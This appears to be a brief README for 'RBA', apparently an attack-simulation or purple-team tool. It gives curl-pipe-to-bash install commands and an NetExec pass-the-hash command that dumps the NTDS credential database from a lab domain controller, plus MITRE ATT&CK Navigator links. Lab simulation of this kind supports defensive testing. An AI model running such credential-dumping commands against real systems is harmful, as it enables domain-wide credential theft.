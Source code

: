 # RBA


```curl -s https://raw.githubusercontent.com/Cazeho/RBA/main/rba.sh | bash```


```curl -s https://raw.githubusercontent.com/Cazeho/RBA/main/attack/simulation/install.sh | bash```


nxc smb 192.168.56.20 -u Administrator -H 2b576acbe6bcfda7294d6bd18041b8fe --ntds



https://mitre-attack.github.io/attack-navigator/#layerURL=$raw_github.json$



https://mitre-attack.github.io/attack-navigator/#layerURL=https://raw.githubusercontent.com/mvelazc0/PurpleSharp/master/PurpleSharp/Json/PurpleSharp_navigator.json



hash: 2j9YnX9dRfJtZiOu96UCuTLbzfX_6QVdaNwmJmQzthdfooicg
